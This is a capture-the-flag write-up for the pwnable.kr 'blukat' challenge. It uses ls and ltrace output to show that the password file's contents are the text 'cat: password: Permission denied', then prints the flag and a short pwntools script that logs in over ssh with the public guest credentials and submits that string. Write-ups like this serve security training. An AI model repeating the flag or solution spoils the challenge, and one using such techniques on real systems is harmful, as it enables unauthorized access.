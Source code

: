 # pwnable.kr blukat writeup by pwn4magic

Challenge Description :
```
Sometimes, pwnable is strange...
hint: if this challenge is hard, you are a skilled player.

ssh blukat@pwnable.kr -p2222 (pw: guest)
```

After we connect to the pwnable.kr server, we can see these files :

```bash
blukat@prowl:~$ ls -la
total 36
drwxr-x---   4 root blukat     4096 Aug 16  2018 .
drwxr-xr-x 114 root root       4096 May 19 15:59 ..
-r-xr-sr-x   1 root blukat_pwn 9144 Aug  8  2018 blukat
-rw-r--r--   1 root root        645 Aug  8  2018 blukat.c
dr-xr-xr-x   2 root root       4096 Aug 16  2018 .irssi
-rw-r-----   1 root blukat_pwn   33 Jan  6  2017 password
drwxr-xr-x   2 root root       4096 Aug 16  2018 .pwntools-cache
blukat@prowl:~$ 
```

Let's run the binary first to see how it works.

```bash
blukat@prowl:~$ ./blukat
guess the password!
1234
wrong guess!
blukat@prowl:~$ 
```

A password system, let's run ltrace to intercepts library calls.

```bash
blukat@prowl:~$ ltrace ./blukat
__libc_start_main(0x4007fa, 1, 0x7ffdc6c04b08, 0x4008c0 <unfinished ...>
fopen("/home/blukat/password", "r")                                                    = 0x1db9010
fgets("cat: password: Permission denied"..., 100, 0x1db9010)                           = 0x6010a0
puts("guess the password!"guess the password!
)                                                            = 20
fgets(1234
"1234\n", 128, 0x7f7ffbae38e0)                                                   = 0x7ffdc6c049b0
strcmp("cat: password: Permission denied"..., "1234\n")                                = 50
puts("wrong guess!"wrong guess!
)                                                                   = 13
exit(0 <no return ...>
+++ exited (status 0) +++
blukat@prowl:~$ 
```

It uses strcmp, let's see what strcmp is doing.

`strcmp, strncmp - compare two strings`

So here compares our input `1234` with `cat: password: Permission denied`

So `cat: password: Permission denied` is the password, weird huh ?

Let's test it out!

```bash
blukat@prowl:~$ ./blukat 
guess the password!
cat: password: Permission denied
congrats! here is your flag: Pl3as_DonT_Miss_youR_GrouP_Perm!!
blukat@prowl:~$ 
```

Flag : `Pl3as_DonT_Miss_youR_GrouP_Perm!!`

pwntools exploit :

```python
#!/usr/bin/env python
from pwn import *
context.log_level = 'DEBUG'

log.info('pwnable.kr - blukat exploit by pwn4magic')

shell = ssh('blukat', 'pwnable.kr', password='guest', port=2222)

sh = shell.run('./blukat')

sh.recvline() #guess the password!

sh.sendline('cat: password: Permission denied')

log.success(sh.recvline())
```

\ (•◡•) / yay! See ya!
